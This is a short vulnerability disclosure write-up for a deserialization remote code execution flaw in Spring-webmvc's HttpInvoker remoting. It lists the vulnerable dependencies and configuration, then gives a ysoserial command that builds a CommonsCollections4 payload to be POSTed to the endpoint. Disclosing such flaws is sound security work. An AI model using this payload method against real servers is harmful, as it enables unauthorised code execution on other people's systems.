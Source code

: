 # Spring-webmvc remote code execution vulnerability #

**project name**： Spring-webmvc <br>
**Versions Affected**: 5.2.x, 5.1.x, <br>
**Exploit Author**: Lynx@vfsec.com <br>
**Homepage**: https://spring.io/projects/spring-framework , https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html <br>


## exploit_detail ## : <br>
    
Build the Maven project for Spring-WebMVC RPC(Remote Method Call)，pom.xml： <br>
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-webmvc</artifactId>
    <version>5.2.8.RELEASE</version>
</dependency>

example-servlet.xml:
<bean name="/hello" class="org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter">
    <property name="service">
        <bean class="com.example.springweb.mvc.simpleHelloWorld"></bean>
    </property>
    <property name="serviceInterface">
        <value>com.example.springweb.mvc.HelloWorld</value>
    </property>
</bean>


USE ysoserial_tool to generate the payload，command is `java -jar ysoserial_tools/ysoserial-0.0.5.jar CommonsCollections4 "calc" > ysoserial_tools/test.ser`
Submit test.ser as a POST request to the Spring-webmvc-rpc API
